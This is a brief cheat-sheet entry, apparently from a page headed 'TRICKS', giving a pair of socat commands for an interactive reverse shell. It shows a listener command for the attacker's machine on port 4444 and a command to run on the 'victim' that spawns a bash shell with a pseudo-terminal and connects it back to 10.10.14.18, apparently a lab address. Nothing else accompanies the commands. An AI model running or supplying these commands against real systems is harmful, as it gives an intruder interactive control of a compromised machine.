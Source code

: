 TRICKS

listener on your machine:
'socat file:`tty`,raw,echo=0 tcp-listen:4444 '

connect from victim
'socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.18:4444 '

